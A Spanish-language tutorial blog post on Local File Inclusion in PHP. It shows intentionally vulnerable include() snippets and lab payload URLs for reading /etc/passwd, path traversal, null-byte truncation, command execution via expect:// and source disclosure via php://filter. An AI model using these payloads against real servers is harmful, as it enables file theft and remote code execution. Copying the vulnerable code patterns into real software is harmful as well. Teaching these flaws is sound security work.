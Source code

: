 ```yaml
---
title: Local File Inclusion (LFI)
categories: [Directory Path Traversal, Null Byte, Wrappers]
published: true
lang: es
---
```


La vulnerabilidad _Local File Inclusion_, _LFI_ por sus siglas en inglés, permite a un atacante leer archivos del servidor vulnerable. Esta afección se produce debido a malas prácticas durante la programación de una página web. 

Dependiendo de la gravedad, esta vulnerabilidad puede llevar al atacante a:
	
* RCE (Remote Code Execution)
* [XSS](https://mateonitro550.github.io/Cross-Site-Scripting-(XSS)) (Cross-Site Scripting)
* DoS (Denial of Service)

Un ejemplo muy básico sería el siguiente script en _PHP_.

```php
<?php
	$file = $_GET['filename'];
	include($file);
?>
```

Script, del que podemos abusar para leer cualquier archivo del sistema, en este caso el `/etc/passwd`.

```
localhost/lfi.php?filename=/etc/passwd
```

![1](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-09-13-Local-File-Inclusion-(LFI)/1.png){:class="blog-image" onclick="expandImage(this)"} 

Es importante aclarar que esta no es solo una vulnerabilidad de _PHP_, también está presente en otros lenguajes como lo es _JSP_ o _ASP_.

### [](#header-3)Directory Path Traversal

Es posible que en el código, se nos limite a acceder a archivos que se ubican únicamente en una ruta preestablecida en el script, en este caso `/var/www/html/`.

```php
<?php
	$file = $_GET['filename'];
	include("/var/www/html/" . $file);
?>
```

Sin embargo, podemos "escaparnos" de la ruta preestablecida si añadimos `../` en nuestra cadena de ataque, pudiendo así listar contenido más allá de `/var/www/html/`.

```
localhost/lfi.php?filename=../../../etc/passwd
```

![2](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-09-13-Local-File-Inclusion-(LFI)/2.png){:class="blog-image" onclick="expandImage(this)"} 

### [](#header-3)Null Byte

De igual manera, es posible que en el código se nos limite a acceder a archivos de determinada extensión, en este caso archivos de extensión `.php`.

```php
<?php
	$file = $_GET['filename'];
        include($file . ".php");
?>
```

De modo que cuando intentemos leer el archivo `/etc/passwd`, o cualquier otro archivo del sistema, lo que estaríamos leyendo en realidad sería el archivo `/etc/passwd.php`, el cual no existe. 

Sin embargo, si añadimos el nullbyte `%00` al final de nuestra cadena de ataque, el `.php` no será tenido en cuenta, pudiendo así leer con normalidad el `/etc/passwd`, o cualquier otro archivo del sistema.

```
localhost/lfi.php?filename=/etc/passwd%00
```

![3](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-09-13-Local-File-Inclusion-(LFI)/3.png){:class="blog-image" onclick="expandImage(this)"} 

### [](#header-3)Wrappers

_PHP_ cuenta con una serie de _wrappers_, los cuales a menudo pueden ser abusados; por mencionar algunos tenemos:

### [](#header-3)expect://

Nos permite una ejecución remota de comandos (RCE); cabe aclarar que este _wrapper_ no está activado por defecto, por lo que no siempre será posible utilizarlo.

```
localhost/lfi.php?filename=expect://whoami
```

![4](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-09-13-Local-File-Inclusion-(LFI)/4.png){:class="blog-image" onclick="expandImage(this)"} 

### [](#header-3)filter://

Nos permite codificar archivos del sistema a través de diferentes métodos como podría ser _Base64_ o _ROT13_. 

Este _wrapper_ resulta bastante útil si necesitamos leer un archivo en _PHP_, ya que recordemos, este es un lenguaje interpretado, por lo que, si intentáramos leer un archivo _PHP_ del servidor vulnerable, lo que veríamos sería simplemente el output del script.

![5](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-09-13-Local-File-Inclusion-(LFI)/5.png){:class="blog-image" onclick="expandImage(this)"} 

```
localhost/lfi.php?filename=php://filter/convert.base64-encode/resource=filterWrapper.php
```

![6](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-09-13-Local-File-Inclusion-(LFI)/6.png){:class="blog-image" onclick="expandImage(this)"} 

![7](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-09-13-Local-File-Inclusion-(LFI)/7.png){:class="blog-image" onclick="expandImage(this)"} 
